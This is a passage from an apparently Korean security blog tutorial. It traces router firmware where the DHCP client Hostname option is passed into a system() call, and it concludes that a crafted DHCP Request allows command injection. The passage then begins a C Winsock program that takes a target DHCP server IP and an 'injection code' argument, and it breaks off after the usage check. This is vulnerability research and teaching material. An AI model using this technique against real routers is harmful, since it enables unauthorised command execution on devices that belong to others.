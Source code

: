 ## (세 번째) 시스템 함수의 인자가 사용자 입력 값에 영향을 받는가?

앞의 과정에서 `sprintf` 함수의 문자열 인자가 상위 코드에서 연산 후 생성된 값이라는 것을 추측하였습니다. 값이 레지스터에 존재한다는 것은 연산 과정을 거쳤다는 뜻입니다. 해당 인자를 역추적하여 생성되는 과정을 분석한 결과 `sprintf` 함수의 문자열 인자는 `get_option` 함수의 리턴 값이라는 것을 확인하였습니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci4.png)

- `dhcpd`는 오픈소스이므로 `get_option` 함수의 소스 코드를 인터넷에서 찾아볼 수 있습니다. `get_option` 함수는 `dhcp_message` 구조체의 DHCP 옵션 정보를 구하는 함수입니다.
- dhcpd URL: [<FontIcon icon="iconfont icon-github"/>https://github.com/cobyism/edimax-br-6528n/blob/master/boot-source/bootcode_rtl8196c_98/boot/init/dhcpd.c](https://github.com/cobyism/edimax-br-6528n/blob/master/boot-source/bootcode_rtl8196c_98/boot/init/dhcpd.c)

![](https://image.toast.com/aaaadh/real/2023/techblog/fci5.png)

- `get_option` 함수의 첫 번째 인자는 `dhcp_message` 구조체의 포인터이고, 두 번째 인자는 옵션 코드입니다. 해당 블록에서는 `0x0C`를 전달하며, `0x0c`는 Client의 Hostname을 의미합니다.
- 즉 `get_option` 함수의 리턴 값은 Client의 Hostname의 주소입니다. 결국 `system` 함수의 인자는 Client의 Hostname이 동적으로 삽입됩니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci6.png)

- SendACK라는 함수 이름으로 미루어 보아 DHCP ACK를 보내는 함수로 추측됩니다.
- DHCP Request 패킷의 Hostname을 조작하면 command Injection 공격이 가능할 것이라 추측됩니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci7uB300uC9C0%201.png)

---

## 실습

DHCP Request 패킷의 Hostname 조작을 위해 간단한 프로그램을 제작하였습니다. (Python의 scapy 라이브러리를 통해 직접 구현해 보는걸 추천합니다.)

### `main.c`

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<winSock2.h>
#include<IPHlpApi.h>
#include "dhcp_req.h"
#pragma comment(lib, "iphlpapi.lib")
#pragma comment(lib, "ws2_32.lib")
void error_handling(char * message);
void set_boost_custom(struct boost_custom * boost_custom_o, int boost_custom_size);
void set_mac_address(struct boost_custom * boost_custom_o);
void set_ip_address(struct boost_custom * boost_custom_o);
void set_injection_code(struct boost_custom * boost_custom_o, char * injection_code, int injection_code_size);
int main(int argc, char ** argv)
{
    WSADATA wsa_data;
    SOCKET send_sock;
    SOCKADDR_IN send_addr;
    struct boost_custom boost_custom_o;
    struct boost_custom * boost_custom_ptr = &boost_custom_o;
    short dhcp_port = 67;

    if (argc != 3)
    {
        printf("Usage : %s<DHCP Server IP address><Injection Code>", argv[0]);
        exit(1);
    }
```